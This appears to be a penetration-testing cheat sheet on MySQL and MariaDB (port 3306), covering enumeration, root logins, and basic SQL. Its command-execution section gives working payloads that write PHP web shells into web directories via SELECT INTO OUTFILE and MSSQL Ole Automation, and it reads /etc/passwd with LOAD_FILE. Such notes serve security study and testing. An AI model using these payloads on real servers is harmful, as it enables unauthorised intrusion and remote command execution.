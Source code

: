 ```yaml
---
title: 3306 mariadb mysql
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - mariadb
  - port 3306
  - mysql
---
```


# 3306 mariaDB - mySQL

## Description

**MySQL**: MySQL is an open-source relational database management system(RDBMS) based on Structured Query Language (SQL). It is developed and managed by oracle corporation and initially released on 23 may, 1995. It is widely being used in many small and large scale industrial applications and capable of handling a large volume of data. After the acquisition of MySQL by Oracle, some issues happened with the usage of the database and hence MariaDB was developed.

**MariaDB**: MariaDB is an open source relational database management system (RDBMS) that is a compatible drop-in replacement for the widely used MySQL database technology. It is developed by MariaDB Foundation and initially released on 29 October 2009. MariaDB has a significantly high number of new features, which makes it better in terms of performance and user-orientation than MySQL.


```shell-session
sudo nmap $ip -sV -sC -p3306 --script mysql*
```




## Connect to database: mariadb

```bash
# -h host/ip   
# -u user As default mariadb has a root user with no authentication
mariadb -h <host/IP> -u root
```


## Connect to database: mysql 

### From Linux

```bash
# -h host/ip   
# -u user As default mysql has a root user with no authentication
mysql --host=INSTANCE_IP --user=root --password=thepassword
mysql -h <host/IP> -u root -p<password>

mysql -u root -h <host/IP>

```

### From windows


```cmd-session
mysql.exe -u username -pPassword123 -h $IP
```
## mariadb commands

```bash
# Get all databases
show databases;

# Select a database
use <databaseName>;

# Get all tables from the previously selected database
show tables; 

# Dump columns from a table
describe <table_name>;

# Dump columns from a table
show columns from <table>;

# Select column from table
select usename,password from users;
```

## Upload a shell 

Take a wordpress installation that uses a mysql database. If you manage to login into the mysql panel (/phpmyadmin) as root then you could upload a php shell to the /wp-content/uploads/ folder.

```mysql
Select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";
```

## mysql basic commands

See [mysql](mysql.md).


```mysql
# Show datases
SHOW databases;

# Show tables
SHOW tables;

# Create new database
CREATE DATABASE nameofdatabase;

# Delete database
DROP DATABASE nameofdatabase;

# Select a database
USE nameofdatabase;

# Show tablesç
SHOW tables;

# Dump content from nameOftable
SELECT * FROM NameOfTable

# Create a table with some columns in the previously selected database
CREATE TABLE person(nombre VARCHAR(255), edad INT, id INT);

# Modify, add, or remove a column attribute of a table
ALTER TABLE persona MODIFY edad VARCHAR(200);
ALTER TABLE persona ADD description VARCHAR(200);
ALTER TABLE persona DROP edad VARCHAR(200);

# Insert a new row with values in a table
INSERT INTO persona VALUES("alvaro", 54, 1);

# Show all rows from table
SELECT * FROM persona

# Select a row from a table filtering by the value of a given column
SELECT * FROM persona WHERE nombre="alvaro";

# JOIN query
SELECT * FROM oficina JOIN persona ON persona.id=oficina.user_id;

# UNION query. This means, for an attack, that the number of columns has to be the same
SELECT * FROM oficina UNION SELECT * from persona;
```


### Enumeration queries 

```mysql
# Show current user
current_user()
user()

# Show current database
database()
```

## Command execution

### Writing files

`MySQL` supports [User Defined Functions](https://dotnettutorials.net/lesson/user-defined-functions-in-mysql/) which allows us to execute C/C++ code as a function within SQL, there's one User Defined Function for command execution in this [GitHub repository](https://github.com/mysqludf/lib_mysqludf_sys).

`MySQL` does not have a stored procedure like `xp_cmdshell`, but we can achieve command execution if we write to a location in the file system that can execute our commands. 

- If `MySQL` operates on a PHP-based web server or other programming languages like ASP.NET, having  the appropriate privileges, attempt to write a file using [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) in the webserver directory. 
- Browse to the location where the file is and execute the commands.

```mysql
 SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

- In `MySQL`, a global system variable [secure_file_priv](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv) limits the effect of data import and export operations, such as those performed by the `LOAD DATA` and `SELECT … INTO OUTFILE` statements and the [LOAD_FILE()](https://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_load-file) function. These operations are permitted only to users who have the [FILE](https://dev.mysql.com/doc/refman/5.7/en/privileges-provided.html#priv_file) privilege.
- Settings in the `secure_file_priv`:
	- If empty, the variable has no effect, which is not a secure setting as we can read and write data using `MySQL`:
		
		```mysql
		show variables like "secure_file_priv";
		```

```shell-session

+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+
```

```cmd-session
# To write files using MSSQL, we need to enable Ole Automation Procedures, which requires admin privileges, and then execute some stored procedures to create the file:

sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure 'Ole Automation Procedures', 1;
RECONFIGURE;

# Using MSSQL to Create a File
DECLARE @OLE INT;
DECLARE @FileID INT;
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT;
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1;
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>';
EXECUTE sp_OADestroy @FileID;
EXECUTE sp_OADestroy @OLE;

```

- If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operations.


### Reading files

#### MySQL - Read Local Files in MySQL

If permissions allows it:

```shell-session
select LOAD_FILE("/etc/passwd");
```


